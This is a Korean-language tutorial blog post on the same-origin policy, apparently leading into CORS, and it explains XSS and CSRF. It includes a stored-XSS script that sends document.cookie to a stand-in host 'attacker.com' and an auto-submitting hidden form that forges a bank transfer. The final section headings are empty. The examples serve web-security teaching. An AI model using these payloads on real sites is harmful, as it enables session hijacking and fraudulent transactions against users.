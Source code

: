 ```yaml
---
title: CORS(Cross-Origin Resource Sharing) 이해하기
date: 2025-01-20 16:30:00 +09:00
last_modified_at: 2025-01-20 16:30:00 +09:00
categories: [Browser]
tags:
  [
    CORS,
    SOP,
    Browser
  ]
---
```


`CORS(Cross-Origin Resource Sharing)`는 서로 다른 출처간의 리소스를 공유하기 위한 매커니즘입니다.  
이러한 정책이 필요한 이유를 이해하기 위해 `SOP(Same-Origin Policy)`부터 시작하여 차근차근 정리해보겠습니다.

## SOP(Same-Origin Policy)
SOP(Same-Origin Policy, 동일 출처 정책)는 어떤 출처에서 로드된 문서나 스크립트등이 다른 출처의 리소스에 접근하지 못하도록 제한하는 중요한 보안 메커니즘입니다.  
이를 통해 악의적인 스크립트가 다른 출처의 민감한 데이터를 탈취하는 것을 방지합니다.

### SOP 정의
> SOP에서 `출처(Origin)`는 **프로토콜(protocol)**, **호스트(host)**, **포트(port)** 를 모두 포함한 개념입니다.  
> 즉, 프로토콜, 호스트, 포트가 동일하면 같은 출처(Same-Origin)라고 할 수 있습니다.

| ![URL 구성요소](https://github-production-user-asset-6210df.s3.amazonaws.com/52861562/404744688-8550cfe7-6e66-40fa-9f44-947ae4c9ab37.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Credential=AKIAVCODYLSA53PQK4ZA%2F20250120%2Fus-east-1%2Fs3%2Faws4_request&X-Amz-Date=20250120T045539Z&X-Amz-Expires=300&X-Amz-Signature=283ff9ad02631708caeb3b54f7ee78f1eb0f78854a3d3951a43aa4e82f4b9966&X-Amz-SignedHeaders=host) |
|:---------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------:|
|                                                                                                                                                                                                   *URL 구성요소*                                                                                                                                                                                                    |
  
- 예시:
  - Origin: http://hajeonghun.com
    - http://hajeonghun.com/page1 → ✅ 포트가 생략되면 기본 포트기준으로 http 80이므로 동일 출처.
    - http://hajeonghun.com:80/page1 → ✅ 프로토콜, 호스트, 포트가 같으므로 동일 출처.
    - http://hajeonghun.com:3000/page1 → ❌ 포트가 다르므로 다른 출처.
    - https://hajeonghun.com:443/page1 → ❌ 프로토콜이 다르므로 다른 출처.
    - http://api.hajeonghun.com:80/page1 → ❌ 서브도메인이 다르므로 다른 출처.

### 초창기 웹의 역할과 보안 문제
1990년대 초 웹은 단순한 정적 문서 기반으로 시작되었으며, 보안에 대한 개념이 초기에는 크게 고려되지 않았습니다.

- 초기 웹의 특성:
  - HTML 문서와 이미지 등 단순 리소스를 가져오는 용도로 설계됨.
- 자바스크립트 등장:
  - 1995년 자바스크립트가 등장하며 클라이언트 측에서 동적 동작과 데이터를 처리할 수 있는 기능이 추가됨.
- 문제:
  - 초기에는 출처(Origin)에 대한 제약이 없었기 때문에 웹 페이지에서 다른 사이트의 데이터를 자유롭게 가져오거나, 악의적인 사이트가 민감한 정보를 탈취할 가능성이 있었습니다. (XSS, CSRF 등...)

### SOP 탄생배경
웹이 동적으로 발전하면서 같이 보안 문제도 증가하게 되었습니다. 이에 따라 잠재적으로 악의적인 사이트간의 격리를 통해 공격 가능성을 줄이기 위해 탄생하였습니다.
- 브라우저의 역할 확대:
  - 브라우저가 단순 문서 뷰어에서 클라이언트-서버 통신을 담당하는 플랫폼으로 발전하면서, 공격자가 자바스크립트를 이용해 민감한 정보를 훔치거나 서버에 무단 요청을 보내는 공격이 가능해짐.
- 보안 공격의 현실화:
  - XSS(Cross-Site Scripting): 공격자가 사용자 브라우저에서 악성 스크립트를 실행.
  - CSRF(Cross-Site Request Forgery): 공격자가 사용자의 인증 정보를 도용하여 악의적인 요청을 수행.
  - 이런 공격이 SOP가 없는 초기 환경에서는 매우 쉽게 이루어졌습니다.

   | 구분    | 	CSRF                                      | 	XSS                                       |  
    |-------|--------------------------------------------|--------------------------------------------|  
    | 공격 대상 | 	서버                                        | 	사용자                                       |  
    | 피해자   | 	인증된 사용자가 자신의 인증 정보를 기반으로 위조된 요청을 보내는 경우.	 | 웹사이트의 취약점을 악용하여 다른 사용자가 악성 스크립트를 실행하도록 유도. |

> 💡 SOP(Same-Origin Policy)만으로는 웹 보안을 완벽히 달성할 수 없으며, XSS와 CSRF를 방어하기 위해 별도의 보안 대책이 필요합니다.

### XSS(Cross-Site Scripting, 크로스사이트 스크립팅)
> XSS(Cross-Site Scripting, 크로스사이트 스크립팅)은 해커가 입력한 악의적인 스크립트가 클라이언트 측에서 실행되는 공격으로    
쿠키 값 또는 세션 등 사용자의 중요 정보를 탈취하거나 피싱 사이트로의 접근 유도 등 클라이언트 측에 직접적인 피해를 줄 수 있습니다.

| ![xss 공격](https://github.com/user-attachments/assets/07d1fa42-49c9-46d8-afbf-1dfee10b44d2) |
|--------------------------------------------------------------------------------------------|
| *Stored XSS (저장형 크로스사이트 스크립팅)*                                                             |

1. XSS 공격 시나리오 (SOP 도입 전)
   1. 공격자가 게시판과 같은 사용자 입력을 처리하는 사이트(예: http://hajeonghun.com)에서 악성 JavaScript 코드를 삽입한 게시물 작성
   2. 삽입된 코드는 사용자가 해당 페이지에 방문하여 게시물을 열람할 때 실행되어, 사용자의 쿠키(로그인 세션)를 공격자 서버로 전송
  

2. 공격 코드
```html
<!-- 공격자가 게시판에 삽입한 악성 스크립트 -->
<script>
  // 사용자의 쿠키를 공격자 서버로 전송
  fetch("http://attacker.com/steal-cookie", {
    method: "POST",
    body: JSON.stringify({ cookie: document.cookie }),
    headers: { "Content-Type": "application/json" }
  });
</script>
```


3. SOP가 없는 상황에서 발생 가능한 문제  
   - 브라우저는 document.cookie에 대해 출처를 제한하지 않으므로, 이 스크립트는 사용자가 현재 방문 중인 웹사이트(예: http://hajeonghun.com)의 쿠키에 접근할 수 있습니다.  
   - 공격자는 사용자의 로그인 세션을 탈취해 해당 사용자의 계정을 도용할 수 있습니다.

> 💡 SOP는 XSS 자체를 100% 방어하지 못하며, 이를 방어하기 위해서는 입력 검증(e.g., HTML 엔티티 인코딩, 정규식 검증) 및 **CSP(Content Security Policy)** 와 같은 별도의 보안 대책이 필요합니다.

### CSRF(Cross-Site Request Forgery, 사이트 간 요청 위조)
> CSRF(Cross-Site Request Forgery, 사이트 간 요청 위조)는 사용자가 의도하지 않은 요청을 신뢰할 수 있는 웹 애플리케이션에 보냄으로써 발생하는 보안 취약점입니다.  
공격자는 피해자의 인증 정보를 악용하여 서버에 권한이 있는 요청을 위조합니다.

| ![csrf 공격](https://github.com/user-attachments/assets/d3fc10a2-4056-434c-b85c-7b0a22b75839) |
|---------------------------------------------------------------------------------------------|
| *CSRF (사이트 간 요청 위조)*                                                              

1. CSRF 공격 시나리오 (SOP 도입 전)
   1. 사용자가 은행 사이트(예: http://bank.com)에 로그인한 상태에서, 공격자 사이트(예: http://attacker.com)를 방문
   2. 공격자 사이트는 사용자의 인증된 세션을 악용하여 은행 서버로 요청을 보냄


2. 공격 코드 
```html
<!-- 공격자가 자신의 악성 사이트(예: http://attacker.com)에 삽입 -->
<form action="http://bank.com/api/transfer" method="POST">
  <input type="hidden" name="to_account" value="1103109999">
  <input type="hidden" name="amount" value="30000000">
  <input type="submit" value="Click here to win a prize!">
</form>

<script>
  // 사용자가 버튼을 클릭하지 않아도 자동으로 폼 제출
  document.forms[0].submit();
</script>
```


3. SOP가 없는 상황에서 발생 가능한 문제
- 은행 사이트(예: http://bank.com)의 인증 쿠키는 SOP가 없기 때문에 자동으로 서버에 전송됩니다.
- 은행 서버는 요청이 신뢰할 수 있는 출처에서 온 것인지 확인하지 않고 처리합니다.
- 결과적으로 사용자는 알지 못한 채로 자신의 계좌에서 돈이 빠져나갑니다.

> 💡 SOP는 CSRF를 100% 방어하지 못합니다. CSRF 방어를 위해서는 CSRF 토큰, Referer 헤더 확인, 또는 SameSite 쿠키 설정 등의 추가적인 보안 메커니즘이 필요합니다.


### SOP의 주요 목적
### SOP가 해결한 보안 문제
### SOP의 한계와 이후의 확장
